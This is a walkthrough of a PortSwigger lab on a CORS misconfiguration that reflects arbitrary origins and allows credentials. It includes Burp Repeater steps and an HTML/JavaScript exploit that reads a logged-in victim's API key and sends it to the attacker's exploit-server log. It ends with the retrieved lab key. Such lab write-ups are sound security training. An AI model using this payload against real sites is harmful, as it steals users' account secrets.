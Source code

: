 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/72d0eaf3-6029-4376-afef-1d60db09486a)

# Solution:

Check intercept is off, then use the browser to log in and access your account page.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/03410974-3006-4a9b-b0d8-bcdf3f63f31e)

Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/af5ec611-c4cd-44bc-88a0-39bb35a3219d)

Send the request to Burp Repeater, and resubmit it with the added header:

`Origin: https://example.com`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7f2b86cd-6fe3-499c-93fe-2220e137b57b)

Observe that the origin is reflected in the Access-Control-Allow-Origin header.

In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/37da6202-1225-4b21-8c6a-93dea30ac933)

Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6312fe7c-c004-40b8-819f-7f6309206261)

Go back to the exploit server and click Deliver exploit to victim.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9d296ad9-1e8a-42db-ab02-6525f677ecae)

Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/c7c451bf-da9c-4434-8316-2d5593122345)

API KEY: `ahiZVXoXK15J3i9CsAhE7AJ27B4SZI09`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/cc417157-9914-4236-98e3-619a105b6876)



